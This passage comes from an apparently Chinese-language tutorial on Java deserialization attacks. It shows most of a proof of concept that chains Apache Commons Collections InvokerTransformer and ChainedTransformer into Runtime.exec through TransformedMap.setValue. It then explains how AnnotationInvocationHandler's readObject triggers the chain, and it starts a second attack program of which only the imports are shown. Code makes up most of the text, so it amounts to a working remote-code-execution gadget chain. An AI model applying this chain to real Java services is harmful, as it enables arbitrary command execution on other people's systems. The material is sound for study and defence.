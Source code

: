 ```java
						Object.class, Object[].class}, new Object[]{null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 创建Map对象
		Map map = new HashMap();
		map.put("value", "value");

		// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
		Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

//		 transformedMap.put("v1", "v2");// 执行put也会触发transform

		// 遍历Map元素，并调用setValue方法
		for (Object obj : transformedMap.entrySet()) {
			Map.Entry entry = (Map.Entry) obj;

			// setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
			entry.setValue("test");
		}

		System.out.println(transformedMap);
	}

}

```

`setValue/put/putAll`这三个方法中都有对key和值进行transform的处理，不用多说了。

1. 实现了`java.io.Serializable`接口；
2. 并且可以传入我们构建的`TransformedMap`对象；
3. 调用了`TransformedMap`中的`setValue/put/putAll`中的任意方法一个方法的类；

### AnnotationInvocationHandler

`sun.reflect.annotation.AnnotationInvocationHandler`类实现了`java.lang.reflect.InvocationHandler`(`Java动态代理`)接口和`java.io.Serializable`接口，它还重写了`readObject`方法，在`readObject`方法中还间接的调用了`TransformedMap`中`MapEntry`的`setValue`方法，从而也就触发了`transform`方法，完成了整个攻击链的调用.

这一段话说的已经很明白了。

直接上攻击流程

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;
```
